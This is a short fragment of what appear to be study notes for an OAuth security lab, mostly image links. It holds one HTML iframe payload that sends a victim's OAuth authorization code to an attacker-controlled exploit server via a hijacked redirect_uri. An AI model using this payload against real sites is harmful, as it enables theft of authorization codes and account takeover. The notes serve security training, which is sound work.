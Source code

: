 
![[Pasted image 20250719215020.png]]

1. `<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

![[Pasted image 20250710142754.png]]
![[Pasted image 20250710142711.png]]

